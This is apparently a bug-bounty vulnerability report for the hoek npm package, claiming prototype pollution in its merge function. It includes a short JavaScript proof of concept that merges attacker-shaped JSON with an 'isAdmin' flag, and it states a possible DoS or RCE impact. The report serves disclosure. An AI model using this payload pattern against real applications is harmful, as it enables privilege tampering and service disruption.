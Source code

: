 ## ✍️ Description
hoek package is vulnerable to prototype pollution issue 
file can be found in https://github.com/hapijs/hoek/blob/master/lib/merge.js
## 🕵️‍♂️ Proof of Concept 
1. Creating poc file namely poc.js
```js
var utils = require('hoek');
var src = {};
let object = utils.merge({}, JSON.parse('{ "myProperty": "a", "prototype" : { "isAdmin" : true } }'));
console.log(object.prototype.isAdmin);
```
2. Execute command npm install hoek
3. Execute command node poc.js
* https://drive.google.com/file/d/1Vcy1bmKPcaeADxz3EAopuO3cZMlanYcX/view?usp=sharing
## 💥 Impact
Prototype pollution which could lead to DOS and RCE
## ✅ Checklist
- [x] _Created and populated the README.md and vulnerability.json files_
- [x] _Provided the repository URL and any applicable [permalinks]([https://help.github.com/en/github/managing-files-in-a-repository/getting-permanent-links-to-files](https://help.github.com/en/github/managing-files-in-a-repository/getting-permanent-links-to-files))_
- [x] _Defined all the applicable weaknesses ([CWEs]([https://cwe.mitre.org/](https://cwe.mitre.org/)))_
- [x] _Proposed the CVSS vector items i.e. User Interaction, Attack Complexity_
- [x] _Checked that the vulnerability affects the latest version of the package released_
- [x] _Checked that a fix does not currently exist that remediates this vulnerability_
- [x] _Complied with all applicable laws_
